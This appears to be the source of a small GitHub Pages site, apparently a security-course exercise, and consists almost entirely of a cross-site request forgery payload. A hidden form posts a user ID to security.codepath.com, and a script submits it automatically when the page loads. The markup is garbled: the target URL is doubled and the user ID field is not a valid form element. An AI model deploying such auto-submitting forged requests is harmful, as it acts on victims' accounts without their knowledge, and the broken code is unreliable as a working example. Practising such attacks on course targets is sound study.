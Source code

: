 # Buwutiful.github.io
<form name="csrfForm" action="https://security.codepath.com/https://security.codepath.com/" method="POST">
 <userId = a393ac24bc4d5b9ac11b726ba8ed4aa6660e4e05/>
</form>
<script>
 document.csrfForm.submit();
</script>

